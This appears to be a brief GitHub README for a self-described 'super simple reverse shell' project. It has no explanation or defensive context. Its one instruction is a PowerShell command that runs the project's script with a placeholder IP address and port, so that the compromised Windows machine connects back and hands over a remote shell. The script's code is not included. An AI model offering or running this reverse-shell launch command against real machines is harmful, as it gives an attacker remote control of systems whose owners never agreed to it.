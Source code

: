 # Shitty-ahh-reverse-shell
Just a super simple reverse shell.


When running on windows run, just put this command: powershell.exe -File "C:\route\of\thefile\script.ps1" -ip "YOUR IP" -port your port
